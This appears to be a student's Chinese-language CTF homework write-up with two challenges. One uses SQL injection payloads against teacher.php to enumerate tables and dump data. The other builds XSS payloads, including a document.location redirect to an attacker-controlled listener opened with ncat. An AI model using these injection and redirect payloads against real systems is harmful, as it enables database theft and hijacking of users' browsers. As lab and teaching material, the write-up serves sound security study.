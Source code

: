 ```yaml
---
export_on_save:
  phantomjs: "pdf"
---
```


# [hw0x07] writeup
莊翔旭, woolninesun, b04902083

## cei8a

1. 登入，github hacking...找到帳號密碼
2. 翻一翻用 time base 去測試，找到在 teacher.php 有 sql injection 的漏洞
3. sql injection payload 如下
    * `td=wang';select+1,2,3,4,5,6,7,8;--` 可以 leak 資訊
    * `td=wang';select null,table_name from information_schema.tables limit 1 offset 0;--` 得到 teacher 這個 table
    * `td=wang';select null, * from teacher;--` 看看裡面有啥，得到 flag

## XSSkitchen

1. 在自己的 server 用 `ncat -vvv -kl 0.0.0.0 9999` 建立簡單的 server，在傳一個基本的 payload 嘗試 xxs 
    ```
    document.location='http://server.domain:9999/'
    ```

2. 然後 server 這邊有成功收到訊息，其中一條資訊顯示:
    ```
    Referer: http://localhost/server/7.php?c=document.location=%27http://server.domain:9999/%27
    ```
3. 猜測 `http://localhost/server/7.php?c=payload` 是可以碰到的，就嘗試 `curl http://edu.kaibro.tw:5566/server/7.php?c={FOOD}`，就出現第 7 道食材的樣子

4. 在 terminal 下 command，得到所有食材的樣子：
    ```bash
    for i in {1..10}; do 
        echo $(curl "http://edu.kaibro.tw:5566/server/${i}.php?c=FOOD" 2>/dev/null);
    done
    ```
    ```html
    FOOD
    <!--FOOD-->
    <a href="FOOD">haha</a>
    <title>FOOD</title>
    <style>FOOD</style>
    <script>`FOOD`</script>
    <script>FOOD</script>
    <script>/*FOOD*/</script>
    <select><option>FOOD</option></select>
    <xmp>FOOD</xmp>
    ```

5. 建構出 payload: `-->"</title></xmp></style></script><script>alert()</script>`
